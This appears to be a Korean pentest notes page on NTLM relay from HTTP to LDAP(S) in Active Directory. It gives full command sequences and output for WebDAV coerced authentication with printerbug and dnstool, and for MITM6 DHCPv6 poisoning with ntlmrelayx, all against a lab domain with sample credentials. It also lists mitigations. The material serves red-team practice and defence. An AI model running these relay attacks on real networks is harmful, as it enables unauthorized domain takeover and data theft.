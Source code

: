 # HTTP to LDAP

HTTP to LDAP(S) 는 LDAP Signing 설정에 있어서 좀 더 자유로운 편이기 때문에 자주 사용되는 릴레이 공격이다. HTTP 트래픽을 받아올 때는 MITM6를 통한 DHCPv6 포이즈닝 혹은 Webdav 서비스를 이용한 강제 인증 (Petitpotam, Print Spooler) 등을 이용한다.

* HTTP -> LDAP: LDAP Signing Disabled/Enabled 공격가능. Required 일 시 공격 불가능.
* HTTP -> LDAPS: LDAP Signing Disabled/Enabled/Required 모두 공격 가능. EPA (Extended Protection for Authentication) 사용시 공격 불가능.

HTTP to LDAP(S) 에는 크게 두 가지 공격 방식이 있다.

1. Webdav + 강제인증: 타겟 서버가 Webdav 서비스를 실행중일 때 강제 인증을 통해 Webdav 서비스로부터 인증 트래픽을 받아낸 뒤, 이를 릴레이한다.
2. MITM6: 타겟 서버가 DHCPv6 에 취약하다면 ipv6 DNS 서버를 스푸핑 한 뒤, ipv6 관련된 트래픽을 공격자 서버로 보낸다. 그 뒤, 이 트래픽을 릴레이한다.

\#1 번의 경우 도메인 유저 맥락이 필요하기 때문에 도메인 장악 보다는 Webdav 호스트의 LDAP 특성을 조작해 장악하는 방식으로, 횡적 이동에 자주 사용된다.

\#2 번의 경우 아무런 유저 계정 정보없이 머신 계정 생성 및 LDAP 정보 덤프가 가능하기 때문에 도메인 진입에 자주 사용된다.

### 1. Webdav 강제 인증

Webdav 강제 인증에서는 강제 인증을 통해서 Webdav 서비스가 공격자에게 HTTP 트래픽을 보내도록 해야한다. 이를 위해서는 피해자공서버가격자의 IP 주소가 아닌 DNS 이름으로 트래픽을 보내도록 해야한다.

때문에 공격자 서버의 DNS 엔트리를 생성해야한다. 이를 위해선 SPN 이 설정되어 있는 머신 계정이 필요하다.

```
# 1. Webdav 확인 
webclientservicescanner choi.local/low:'Password123!'@192.168.40.0/24

# 2. 공격자 머신 계정 생성 
impacket-addcomputer choi.local/low:'Password123!' -dc-ip 192.168.40.150

[*] Successfully added machine account DESKTOP-405ONBSD$ with password MV6AVqCWU7vnChAVPH5RICbBtBzkJdbk.

# 3. 공격자 머신 계정의 DNS 엔트리 생성 - 공격자 서버의 IP 주소 지정 (192.168.40.132)
python3 dnstool.py -u choi.local\\'DESKTOP-405ONBSD$' -p 'MV6AVqCWU7vnChAVPH5RICbBtBzkJdbk' -a add -r relayx -d 192.168.40.132 ldaps://192.168.40.150

# 4. Webdav + Printerbug 강제 인증 
python3 printerbug.py choi.local/low:'Password123!'@192.168.40.151 kali@80/choiredteam 

# 5. ntlmrelayx 를 이용해 LDAP 정보 덤프
./ntlmrelayx.py -t ldaps://192.168.40.150 --no-da --no-acl -smb2support --remove-mic --no-validate-priv

[*] HTTPD(80): Authenticating against ldaps://192.168.40.150 as / SUCCEED
[*] Assuming relayed user has privileges to escalate a user via ACL attack
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!

# 6. 공격 완료 후 머신 계정 및 DNS 엔트리 삭제 - 도메인 관리자 권한 필요 
impacket-addcomputer -delete choi.local/Administrator:'Password123!' -computer-name 'DESKTOP-405ONBSD$'
python3 dnstool.py -u choi.local\\'DESKTOP-405ONBSD$' -p 'MV6AVqCWU7vnChAVPH5RICbBtBzkJdbk' -a remove -r relayx -d 192.168.40.132 ldaps://192.168.40.150
```

### 2. MITM6

```
# 1. MITM6 세팅 
python3 mitm6.py -d <도메인> --ignore-nofqdn

# 1-1. 특정 호스트만 화이트리스트 처리 후 mitm6 공격 
python3 mitm6.py -d <도메인> --ignore-nofqdn -hw <호스트 FQDN>
python3 mitm6.py -d choi.local --ignore-nofqdn -hw wkstn01.choi.local

# 2. ntlmrelayx 세팅 
python3 ntlmrelayx.py -t ldap://<ip> -wh <wpad-이름-아무거나> -6 --no-da --no-acl
python3 ntlmrelayx.py -t ldap://192.168.40.150 -wh choipad -6 --no-da --no-acl

# ntlmrelayx 공격 결과 
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Connection from ::ffff:192.168.40.151 controlled, attacking target ldap://192.168.40.150
[*] HTTPD(80): Authenticating against ldap://192.168.40.150 as CHOI/ADMINISTRATOR SUCCEED
[*] Domain info dumped into lootdir!

```

ntlmrelayx 의 기본적인 LDAP 공격은 도메인 어드민 유저를 생성한다거나 ACL 공격을 함부로 진행하는 등의 고객사 네트워크에 사용하기엔 좀 위험한 공격들이 있다. 따라서 `--no-da` 와 `--no-acl` 등의 플래그를 이용해서 기본 공격들을 진행하지 않는다.

위 실습에서는 오로지 도메인 정보만 덤프하는 아주 기본적인 공격을 진행했다. 사실상 BloodHound 를 실행한 것과 같은 공격이다.

### 대응 방안

* HTTP -> LDAP: Webdav 가 필요 없는 서버들은 Webdav를 비활성화 시킨다.
* HTTP -> LDAP: LDAP Signing을 Required 로 설정한다. `(Default Domain Controller Policy 혹은 GPO`) `> Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options > Domain controller: LDAP server signing requirement` - REQUIRED 로 설정
* HTTP -> LDAPS: Extended Protection for Authentication (EPA) 를 설정한다.
  * IIS > 왼쪽의 Sites 에서 EPA 를 설정할 사이트 ("a") 찾기 > Authentication > Windows Authentication Enable > Windows Authentication Advanced Settings > Extended Protection : REQUIRED 로 설정

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### MISC

* DHCPv6 포이즈닝 관련 테스트를 할때는 nic을 껐다 켰다 하는게 제일 빠른 것 같다.
* wpad 관련된 공격에서는 컴퓨터를 재부팅하거나 재로그인 하는 것이 도움될 때가 있다.
* Webdav 강제 인증 공격에서는 실제 공격자의 DNS 엔트리가 필요하다. 만약 공격자 전용 리눅스 VM 이라면 add-computer + dnstool 로 머신 계정 생성 + DNS 엔트리를 머신계정과 공격자 VM으로 묶어준다 (relayx.choi.local == 192.168.40.132).
  * 만약 이미 윈도우 호스트 중 한 대를 장악한 공격자라면 머신 계정을 생성할 필요도, DNS 엔트리를 바꿀 필요도 없다. 그저 장악한 호스트로 Webdav 강제 인증을 보내주기만 하면 된다.

### 레퍼런스

{% embed url="https://github.com/Hackndo/WebclientServiceScanner" %}

{% embed url="https://github.com/dirkjanm/krbrelayx" %}

{% embed url="https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/" %}

